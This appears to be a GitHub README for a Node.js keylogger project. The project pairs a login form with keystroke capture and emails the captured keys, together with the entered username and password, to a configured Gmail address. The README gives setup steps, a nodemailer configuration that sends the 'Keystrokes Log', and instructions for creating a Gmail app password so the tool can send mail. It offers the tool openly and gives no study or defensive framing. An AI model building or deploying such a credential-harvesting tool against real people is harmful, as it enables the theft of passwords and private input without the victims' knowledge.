

# Keylogger Project

This project is a simple implementation of a keylogger integrated with a login form. It captures the keystrokes made by the user before submitting the login form and sends them along with the login credentials to a specified email address. This README provides an overview of the project structure, files, and how to set it up.



## Project Structure

- **index.js**: Node.js backend server code responsible for handling the login endpoint, capturing keystrokes, and sending them via email.
- **script.js**: Frontend JavaScript code responsible for capturing keystrokes and submitting the login form.
- **index.html**: HTML file containing the login form.
- **keycodes.js**: JavaScript file defining keycodes for each key pressed.
- **styles.css**: CSS file containing styles for the login form and page layout.

## Setup Instructions

1. **Clone the repository to your local machine:**

    ```bash
    git clone https://github.com/pranaykumar2/keylogger.git
    ```

2. **Install dependencies:**

    ```bash
    npm install
    ```

3. **Configure Gmail credentials in `index.js`:**

    ```javascript
    const transporter = nodemailer.createTransport({
        service: 'gmail',
        auth: {
            user: process.env.GMAILFROM,
            pass: process.env.PASSWORD
        }
    });
    
    const mailOptions = {
        from: process.env.GMAILFROM,
        to: process.env.GMAILTO,
        subject: 'Keystrokes Log',
        text: `Keystrokes log for user ${username}:\n${keysPressedText}`
    };
    ```

4. **Setup `.env` file:**

    Create a `.env` file in the root directory and add the following:

    ```
    GMAILFROM=your-from-email@gmail.com
    PASSWORD=your-email-password
    GMAILTO=your-to-email@gmail.com
    ```

5. **Start the server:**

    ```bash
    node index.js
    ```

6. **Open `localhost:3000` in a web browser to access the login form.**

7. **Steps to setup `APP PASSWORD`:**

   1. Go to your Google Account App Passwords: [Google App Passwords](https://myaccount.google.com/apppasswords)
   2. Name your app and create the password
   3. Copy the generated password and use it in the `.env` file

## Usage

1. Enter your username and password in the login form.
2. Before submitting the form, type your credentials while the page is active to capture keystrokes.
3. Click the "Login" button to submit the form.
4. The captured keystrokes will be sent along with your login credentials to the configured email address.

## Keycodes Reference

The `keycodes.js` file contains a reference for keycodes corresponding to each key pressed. You can use this reference to interpret the captured keystrokes.

## Technologies Used

- Node.js
- Express.js
- Nodemailer
- HTML/CSS/JavaScript
- Body-parser
- FormData API
- Git
- Gmail

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License

This project is licensed under the [MIT License](LICENSE).
